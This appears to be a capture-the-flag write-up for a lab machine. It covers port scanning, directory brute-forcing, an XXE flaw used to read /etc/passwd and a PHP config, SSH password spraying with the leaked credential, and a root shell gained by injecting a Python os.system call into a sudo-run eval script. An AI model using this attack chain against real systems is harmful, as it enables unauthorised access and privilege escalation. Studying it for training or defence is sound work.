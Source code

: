 ## understanding the structure

1. nmapping the server looking for open ports and hints: <code>sudo nmap -p- --min-rate 10000 -oA bountynmap/ports -v 10.10.11.100</code>
![nmap1 results](https://is-going-to-rick-roll.me/1637699944.png)


From the nmap result i can understand that ports <mark>80, and 22</mark> are open

Now I'll run a deeper nmap to check sevrer info and what's actually is open

<code>sudo nmap -sC -sV -oA bountynmap/etc -p 80,22 10.10.11.100</code>
![nmap2 results](https://is-going-to-rick-roll.me/1637699794.png)

<br>

## mapping the website - looking for vulnerabilities in UI 

After opening burp suite and checking all pages and forms i can see the they are not really doing any action.
Besides the portal page thats navigates to http://10.10.11.100/log_submit.php

![burp suite check](https://is-going-to-rick-roll.me/1637762423.png)

this form sends the data i input to the form and encodes in base64
decoding this string returns XML instructions.

try to change the date to XML with XXE

From looking at the pages I can also see that the website is coded in PHP, so I started to run `gobuster` (brute-force tool) on SecLists raft-small-words list.
<code>gobuster dir -w SecLists/Discovery/Web-Content/raft-small-words.txt -x php -o hunterPages.txt -u http://10.10.11.100</code>


![XXE found](https://is-going-to-rick-roll.me/1637762393.png)

<br>

## executing commands/drawing out data from the server

After we found the first vulnerability we can use it and try to draw data, let's try getting the passwd file usign using the XXE.

![XXE](https://is-going-to-rick-roll.me/1637762776.png)

and here we go, it returned all the registered users

save the result in new file and grpe all users:

<code>grep home passwdFile | cut -d: -f1</code>

![users](https://is-going-to-rick-roll.me/1637763224.png)
we have two users: `"syslog", and "development"`

<br>

Now when the brute-force process (using gobuster) has endeed we can take a look at the output (hunterPages.txt) and take a look on all the pages.
From a first look i can find a file that might contain some details "/db.php"

trying to navigate to http://10.10.11.100/db.php returns  200 without any data, so maybe we can try getting this page with XXE


![db file](https://is-going-to-rick-roll.me/1637765282.png)

now the td tag line returns a result including something that might be the db.php encrypted.
decoding it using base64 returns
```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "password-was-removed-do-it-yourself";
$testuser = "test";
?>
```

alright now when we have the password we can try and login to a user.
I used `crackmapexec` to try and login to one of the users.

create a file with all the users we found (development and syslog)
run: `crackmapexec ssh 10.10.11.100 -u users.lst -p "m19RoAU0hP41A1sTsq6K"`


##### crackmapexec result
![crackmapexec result](https://is-going-to-rick-roll.me/1637776835.png)

as we can see from the result, we have now the connection info to user: development followed by his password we found.

###### connect via SSH

<code>cat user.txt</code> - Congrats this is the first flag.



<br>

## Time to own the system

run: <code>sudo -l</code> to see what files the current user can run

![sudo -l -> response](https://is-going-to-rick-roll.me/1637778122.png)

The only intresting file is ticketValidator.py, this is also might me our hint.

After a short look i can see that this file is evaluating user input, so it might be vulnerable.

# Conclusions regarding the script

* File must to end with <mark>.md</mark>
* First line in the file must be <mark># Skytrain Inc</mark>
* Second line in the file must to start with <mark>## Ticket to &nbsp;</mark>
* Closed tickets 3rd line will be <mark>__Ticket Code:__</mark> you can also leave it like <mark>__Ticket Code:</mark>
  but line after must to start with <bold>**</bold> and it'll be replaced with ""
* After all these steps and if you pass all the checks It'll check if <code>if int(ticketCode) % 7 == 4:</code> is true
and It'll eval <code>eval(x.replace("**", ""))</code>


<h6>make sure to run this script with sudo</h6>
```s
# Skytrain Inc
## Ticket to 
__Ticket Code:__
**11+__import__("os").system("bash")
```

run: <code>whoami</code> -> congrats you are root!

<code>cd ~</code>
<code>cat root.txt</code>